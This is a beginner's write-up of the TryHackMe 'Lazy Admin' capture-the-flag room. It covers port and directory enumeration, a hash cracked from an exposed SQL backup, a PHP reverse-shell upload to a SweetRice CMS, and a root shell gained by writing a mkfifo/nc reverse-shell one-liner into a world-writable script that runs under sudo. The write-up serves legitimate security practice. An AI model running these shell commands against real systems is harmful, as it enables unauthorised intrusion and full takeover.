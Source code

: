 ```yaml
---
title : Lazy Admin - TryHackMe WriteUp
author : Seif-Allah
description : Beginner level writeUp for the "Lazy Admin" room.
layout : post
category : CTF-WriteUp
---
```


### <mark style='background-color: white'>Introduction</mark>
'Lazy Admin' is an easy room made by [MrSeth6797](https://tryhackme.com/p/MrSeth6797), great for practice challenges. 
Let's get started! 

### <mark style='background-color: white'>Enumeration</mark>
Starting Nmap with the -A flag, here's the output : 
- - -
<pre>
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCo0a0DBybd2oCUPGjhXN1BQrAhbKKJhN/PW2OCccDm6KB/+sH/2UWHy3kE1XDgWO2W3EEHVd6vf7SdrCt7sWhJSno/q1ICO6ZnHBCjyWcRMxojBvVtS4kOlzungcirIpPDxiDChZoy+ZdlC3hgnzS5ih/RstPbIy0uG7QI/K7wFzW7dqMlYw62CupjNHt/O16DlokjkzSdq9eyYwzef/CDRb5QnpkTX5iQcxyKiPzZVdX/W8pfP3VfLyd/cxBqvbtQcl3iT1n+QwL8+QArh01boMgWs6oIDxvPxvXoJ0Ts0pEQ2BFC9u7CgdvQz1p+VtuxdH6mu9YztRymXmXPKJfB
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBC8TzxsGQ1Xtyg+XwisNmDmdsHKumQYqiUbxqVd+E0E0TdRaeIkSGov/GKoXY00EX2izJSImiJtn0j988XBOTFE=
|   256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILe/TbqqjC/bQMfBM29kV2xApQbhUXLFwFJPU14Y9/Nm
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
</pre>
- - - 
Examining the source code of the running web service looking for some creds, found nothing. So I fire up gobuster using the *directory-list-2.3-medium.txt* wordlist and found a subdirectory called */content* : 
![/content](/assets/images/writeups/thm/lazy_admin/user_flag.png)
Found out that "Basic-CMS Sweetrice" is running here, firing up gobuster again and adding */content* to the URI and here's the result: 
![/gobustercontent](/assets/images/writeups/thm/lazy_admin/gobuster_content.png)
Did some research about this CMS and found that the 1.5.1 version suffers from a code execution vulnerability via the use of a cross site request forgery flaw.
Check this link : [SweetRice-1.5.1-Code-Execution](https://packetstormsecurity.com/files/139521/SweetRice-1.5.1-Code-Execution.html)
So basically, this means that I can upload a php reverse shell and execute it but first we need some credentials to login and then upload our file, so we need more enumeration.
I examine the other subdirectories and there's a specific file that got my attention : */content/inc/mysql\_backup/mysql\_backup/mysql\_bakup\_20191129023059-1.5.1.sql* ! 
Examining it carefully, I found a username and a password hash (*line 79*).
The password hash type is MD5, I used hydra to crack it using the *rockyou.txt* wordlist and then logged in the *Sweetrice* CMS, easy hein ? 

### <mark style='background-color: white'>USER.txt - Easy Peasy</mark>
To get the reverse shell, I simply started my listener (*nc -nlvp 1234*) and then copied the */usr/share/webshells/php/php-reverse-shell.php* file inside the ads section, save it and run it as mentionad in the script above. and boom! got the reverse shell ! 
- - - 
<pre>
listening on [any] 1234 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 56240
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 18:01:47 up 5 min,  0 users,  load average: 1.37, 2.14, 1.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
</pre>
- - -
This time, I was lucky by opening the *user.txt* file without any privelage escalation, and yeah it works ! 
- - - 
<pre>
$ cd /home
$ ls
itguy
$ cd itguy
$ cat user.txt
THM{#####################}
</pre>
- - -


### <mark style='background-color:white'>ROOT.txt</mark>
Now we need to find a way to get the root flag !
First of all, I ran *sudo -l* command : 
- - -

<pre>
$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
$ 
</pre>

- - -
Well, the user www-data can run the following command ? let's open the backup.pl file ! 
- - -
<pre>
$ cat /home/itguy/backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
</pre>
- - -
hum ! can we edit the copy.sh file so it gets executed as root ? 
- - -
<pre>
$ ls -al /etc/copy.sh
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
</pre>
- - -
and yeah we can edit it, SUPER ! So the first idea tha came in my mind is to get an another reverse shell using this command : 
- - - 
<pre> 
$ echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 \>/tmp/f' \>/etc/copy.sh
</pre>
- - - 
After setting up the listener and ran the command, I got the root shell ! now it's time the get root flag !! :) finally ! 
- - - 
<pre>
root@kali:~# nc -nlvp 5554
listening on [any] 5554 ...
connect to [10.2.36.150] from (UNKNOWN) [10.10.217.36] 51512
/bin/sh: 0: can't access tty; job control turned off
# cat /root/root.txt
</pre>
- - - 
Congrats, now you pissed off the lazy admin ! 
